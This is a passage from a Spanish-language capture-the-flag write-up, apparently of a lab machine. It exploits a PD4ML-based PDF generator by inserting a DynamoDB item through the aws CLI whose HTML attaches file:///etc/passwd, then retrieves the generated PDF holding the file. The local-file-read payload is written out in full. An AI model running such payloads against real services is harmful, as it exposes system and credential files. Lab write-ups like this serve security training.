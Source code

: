 Los cuales podremos visualizar desde el navegador 

![paste](./images/29.jpeg)


Una vez ya sabemos como funciona, toca realizar la explotación de este mismo, el cual es leer archivos de la maquina 

carga util:
```bash 
aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src='\''file:///etc/passwd'\'' description='\''test'\'' icon='\''Paperclip'\''/></html>"}}'
```

Después mandamos por ***curl*** la petición 

Y en la carpeta de file obtenemos el nombre de los archivos que se generaron, el que nos interesa es el PDF

```shell
roy@bucket:/var/www/bucket-app$ ls files/
3705.html  result.pdf <--here
```

y este creara un clip que al darle doble clic nos descarga un documento donde si todo salió bien podemos ver el **/etc/passwd**
